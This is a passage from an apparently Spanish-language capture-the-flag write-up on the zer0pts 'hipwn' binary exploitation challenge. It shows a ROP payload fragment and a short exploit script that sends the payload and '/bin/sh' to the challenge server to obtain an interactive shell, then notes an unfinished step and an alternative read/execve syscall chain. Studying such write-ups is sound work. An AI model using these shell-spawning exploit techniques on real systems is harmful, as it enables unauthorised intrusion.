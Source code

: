 ```
payload += p64(0x4024dd) <== La dirección de SYSCALL; RET

```

Falta abrir el socket, enviar el comando que lo leerá el gets() y leer la flag... pero en nuestro caso a la próxima xDD

```
sock = Socket(HOST, PORT)  <== Otra opción: sock = remote(HOST, PORT)

sock.recvline()

sock.sendline(payload)     <== Mandamos todo el payload que hemos creado

sock.sendline("/bin/sh")   <== Mandamos un comando que se escribirá en la parte de BSS que hemos indicado antes

sock.interactive()         <== Tras esto tendríamos la shell
```
#### Lo que falta

No sabemos cómo sacar la dirección de la función gets() del binario! Se supone que es 0x4004ee pero no lo consigo sacar de manera rápida, supongo que hay que meterse a fondo con IDA o algo parecido.

#### Alternativa 

La alternativa para no utilizar la dirección de la función gets() es lo que hacen [aquí](https://github.com/kam1tsur3/2020_CTF/blob/master/zer0pts/pwn/hipwn/solve.py), donde hace dos llamadas al sistema:

- La primera hace un READ con RAX(0), RDI(0), RSI(Dirección del BSS), RDX(0x200)

- La segunda hace un EXECVE con RAX(59), RDI(Dirección del BSS), RSI(Dirección del BSS+0x8), RDX(0)

### Writeups

https://d4mianwayne.github.io/posts/zer0pts-hipwn

https://hackmd.io/@ptr-yudai/B1M5LpWrI

https://github.com/kam1tsur3/2020_CTF/blob/master/zer0pts/pwn/hipwn/README.md
